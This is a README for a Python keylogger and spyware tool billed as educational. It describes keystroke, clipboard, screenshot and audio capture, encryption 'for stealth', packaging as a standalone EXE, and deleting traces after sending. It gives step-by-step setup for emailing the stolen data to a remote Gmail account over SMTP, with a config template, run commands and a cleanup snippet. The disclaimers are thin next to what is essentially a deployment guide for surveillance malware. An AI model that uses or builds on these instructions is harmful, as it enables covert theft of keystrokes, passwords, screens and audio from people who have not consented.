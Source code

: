 # Security Education Tool

**IMPORTANT**: This tool is developed SOLELY for educational purposes in cybersecurity training and authorized penetration testing.

## Ethical Guidelines

- Only use on systems you own or have EXPLICIT permission to test
- Never deploy on production systems without written authorization
- All data collected must be properly secured and destroyed after analysis
- Document all testing activities

## Legal Notice

Unauthorized use of this tool may violate computer crime laws, privacy laws, and other regulations.

# 🛡️ Advanced Keylogger & Spyware Simulation Tool

> ⚠️ **Educational Use Only** — This tool is designed strictly for cybersecurity education and awareness.
> Use only on systems **you own** or have **explicit permission** to test. Unauthorized use is illegal.

---

## 📌 Overview

This Python-based tool simulates a real-world spyware/keylogger scenario for **educational and research purposes**. It demonstrates how attackers might collect sensitive data such as keystrokes, clipboard content, system info, screenshots, microphone/system audio, and send them via email — all while applying file encryption for stealth.

---

## 🎯 Features

- 🔑 **Keylogger** — Records all keystrokes.
- 📋 **Clipboard Monitor** — Logs clipboard changes (text only).
- 📸 **Screenshot Recorder** — Captures screen at configurable intervals.
- 🔊 **Audio Recorder** — Records microphone or system audio.
- 🧠 **System Info Collector** — Gathers device/OS/hostname/network info.
- 🔐 **AES File Encryption** — Secures output files with a generated key.
- 📬 **Email Reporting** — Sends collected data as encrypted attachments.
- 🗑️ **Auto Cleanup** — Deletes the output directory after email is sent.
- 💻 **Standalone EXE Support** — Fully packaged with PyInstaller.

---

## ⚙️ Setup

### 🔧 Install Dependencies

```bash
pip install -r requirements.txt
```

Required libraries: pynput, pyperclip, pyautogui, pyaudio, cryptography, smtplib, etc.

## 📧 Email Reporting Configuration

This tool supports **automated email reporting**. After collecting and optionally encrypting data, it can send the output files as an email attachment to a specified address.

### 🔐 Why Not Hardcode Credentials?

⚠️ **NEVER hardcode email credentials directly in the Python files** or compile them into the `.exe`. Doing so can expose your password via reverse engineering tools.
Instead, the tool uses a separate configuration file: `config.json`.

---

### 📁 Step-by-Step Setup

1. **Enable 2FA and App Password (Gmail)**
   - Go to [https://myaccount.google.com/security](https://myaccount.google.com/security)
   - Enable **2-Step Verification**
   - Scroll to "App Passwords"
   - Generate a new app password for **Mail** and copy it

2. **Create a `config.json` file**
   Create a file named `config.json` in the same directory as your `.exe` or `main.py`.

```json
{
  "smtp_server": "smtp.gmail.com",
  "smtp_port": 587,
  "sender_email": "your_email@gmail.com",
  "sender_password": "your_app_password",
  "recipient_email": "receiver_email@gmail.com",
  "interval": 60
}
```

interval is the time in seconds between periodic reports (e.g., 60 = send every minute).

You can leave interval high (e.g., 9999) if you only want final email reporting.

Running the tool with email enabled

```bash
python main.py --duration 60 --email
```

Or for .exe:

```bash
your_tool.exe --duration 60 --email
```

Make sure config.json is in the same folder as the .exe.

💡 Security Tip
Do NOT upload your config.json to GitHub.

Add it to .gitignore:

```arduino
config.json
```

If sharing the project, provide a sample template instead:

```json
{
  "smtp_server": "smtp.gmail.com",
  "smtp_port": 587,
  "sender_email": "your_email@gmail.com",
  "sender_password": "your_app_password",
  "recipient_email": "receiver_email@gmail.com",
  "interval": 60
}
```

🗑️ Optional: Delete Output After Email Sent
If you want to automatically delete the collected data after successful email reporting:

Make sure email is enabled and successfully configured.

At the end of main.py, after final reporting, call:

```python
import shutil
shutil.rmtree(output_dir)
```

Example:
```python
if args.email and reporter and reporter.configured:
    print("Sending final email report...")
    reporter.send_report(output_dir)
    # ✅ Delete output folder after sending
    shutil.rmtree(output_dir)
```

✅ Summary
Use config.json to safely store credentials.

Keep credentials outside the compiled .exe.

Avoid GitHub leaks: .gitignore your config.json.

Automate secure reporting + cleanup with ease.
